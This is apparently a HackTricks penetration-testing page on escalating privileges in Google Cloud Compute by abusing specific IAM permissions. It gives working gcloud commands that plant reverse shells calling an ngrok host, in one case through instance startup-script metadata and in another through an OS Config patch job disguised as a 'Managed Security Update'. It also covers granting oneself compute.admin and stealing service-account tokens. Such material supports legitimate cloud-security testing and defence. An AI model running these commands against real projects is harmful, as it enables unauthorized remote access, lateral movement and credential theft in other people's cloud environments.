 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

For more information about Compute and VPC (netowork) in GCP check:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Note that to perform all the privilege escalation atacks that require to modify the metadata of the instance (like adding new users and SSH keys) it's **needed that you have `actAs` permissions over the SA attached to the instance**, even if the SA is already attached!

### `compute.projects.setCommonInstanceMetadata`

With that permission you can **modify** the **metadata** information of an **instance** and change the **authorized keys of a user**, or **create** a **new user with sudo** permissions. Therefore, you will be able to exec via SSH into any VM instance and steal the GCP Service Account the Instance is running with.\
Limitations:

- Note that GCP Service Accounts running in VM instances by default have a **very limited scope**
- You will need to be **able to contact the SSH** server to login

For more information about how to exploit this permission check:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

You could aslo perform this attack by adding new startup-script and rebooting the instance:

```bash
gcloud compute instances add-metadata my-vm-instance \
    --metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```

### `compute.instances.setMetadata`

This permission gives the **same privileges as the previous permission** but over a specific instances instead to a whole project. The **same exploits and limitations as for the previous section applies**.

### `compute.instances.setIamPolicy`

This kind of permission will allow you to **grant yourself a role with the previous permissions** and escalate privileges abusing them. Here is an example adding `roles/compute.admin` to a Service Account:

```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
  - serviceAccount:$SERVER_SERVICE_ACCOUNT
  role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```

### **`compute.instances.osLogin`**

If **OSLogin is enabled in the instance**, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You **won't have root privs** inside the instance.

> [!TIP]
> In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.

### **`compute.instances.osAdminLogin`**

If **OSLogin is enabled in the instanc**e, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You will have **root privs** inside the instance.

> [!TIP]
> In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

It's possible to **create a virtual machine with an assigned Service Account and steal the token** of the service account accessing the metadata to escalate privileges to it.

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

If you have the **`osconfig.patchDeployments.create`** or **`osconfig.patchJobs.exec`** permissions you can create a [**patch job or deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). This will enable you to move laterally in the environment and gain code execution on all the compute instances within a project.

Note that at the moment you **don't need `actAs` permission** over the SA attached to the instance.

If you want to manually exploit this you will need to create either a [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **or** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
For a patch job run:

```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
  --instance-filter-names=zones/us-central1-a/instances/<instance-name> \
  --pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
  --reboot-config=never \
  --display-name="Managed Security Update" \
  --duration=300s
```

To deploy a patch deployment:

```bash
gcloud compute os-config patch-deployments create <name> ...
```

The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**An attacker could also abuse this for persistence.**

### `compute.machineImages.setIamPolicy`

**Grant yourself extra permissions** to compute Image.

### `compute.snapshots.setIamPolicy`

**Grant yourself extra permissions** to a disk snapshot.

### `compute.disks.setIamPolicy`

**Grant yourself extra permissions** to a disk.

### Bypass Access Scopes

Following this link you find some [**ideas to try to bypass access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}



